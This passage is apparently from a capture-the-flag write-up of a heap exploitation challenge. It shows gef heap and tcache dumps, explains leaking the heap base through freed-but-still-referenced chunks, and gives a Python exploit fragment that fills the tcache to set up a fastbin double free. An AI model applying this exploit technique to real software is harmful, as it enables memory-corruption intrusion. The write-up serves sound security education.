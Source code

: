 ```
Tcachebins[idx=0, size=0x20, count=3] ←  Chunk(addr=0x5555555593a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x5555555593c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x555555559380, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
gef➤  x/16gx 0x5555555592a0
0x5555555592a0:	0x0000555555559330	0x0000000000000000
0x5555555592b0:	0x00005555555593a0	0x00005555555593c0
0x5555555592c0:	0x0000000000000000	0x0000000000000000
0x5555555592d0:	0x0000000000000000	0x0000000000000000
0x5555555592e0:	0x0000000000000000	0x0000000000000000
0x5555555592f0:	0x0000000000000000	0x0000000000000000
0x555555559300:	0x0000000000000000	0x0000000000000000
0x555555559310:	0x0000000000000000	0x0000000000000000
```
First, we can see that the three chunks we allocated are in the bin. Moreover, the chunk at the bottom of the bin has a pointer to the base of the heap, and the other points to the other chunks in the heap. Finally, we can see that the initial array still contains the pointer to the chunks while these chunks have been freed. Therefore, if we set a new memory in the slot one, we will be able to get the address of the base of the heap (in the slot 3).

However, we would like to get the address to the base of the heap, and an address to a chunk in the heap, at the same time. Also, it would be nice if all these chunks were stored in the `fastbin` instead of the `tcachebin` to prepare the double free (which can be done in the `tcachelist`). For that, I will create 7 chunks that I will erase directly to fill the `tcachebin`, and I will make the same procedure as above to get the pointers. It gives me this code:
```py
r = conn.recvuntil(b'Quit.\n\n')

for i in range(9):
    create_memory(b'txt\n')

erase_memory(b'9\n')
erase_memory(b'8\n')
erase_memory(b'7\n')
erase_memory(b'6\n')
erase_memory(b'5\n')
erase_memory(b'1\n')
erase_memory(b'3\n')
erase_memory(b'4\n')
erase_memory(b'2\n')

create_memory(b'txt\n')

conn.interactive()
```
After running this part of the exploit, the heap looks like this:
```
gef➤  heap chunks
Chunk(addr=0x55deb089f010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f010     06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55deb089f2a0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f2a0     30 f3 89 b0 de 55 00 00 c0 f3 89 b0 de 55 00 00    0....U.......U..]
Chunk(addr=0x55deb089f330, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f330     73 72 64 6e 6c 65 6e 7b 66 61 6b 65 5f 66 6c 61    srdnlen{fake_fla]
Chunk(addr=0x55deb089f380, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f380     9f fc 62 ed db 55 00 00 26 93 df df 63 ce 28 b1    ..b..U..&...c.(.]
Chunk(addr=0x55deb089f3a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f3a0     4f fb 62 ed db 55 00 00 00 00 00 00 00 00 00 00    O.b..U..........]
Chunk(addr=0x55deb089f3c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f3c0     74 78 74 0a 00 55 00 00 00 00 00 00 00 00 00 00    txt..U..........]
Chunk(addr=0x55deb089f3e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f3e0     9f 08 eb 5d 05 00 00 00 00 00 00 00 00 00 00 00    ...]............]
Chunk(addr=0x55deb089f400, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f400     bf fc 62 ed db 55 00 00 26 93 df df 63 ce 28 b1    ..b..U..&...c.(.]
```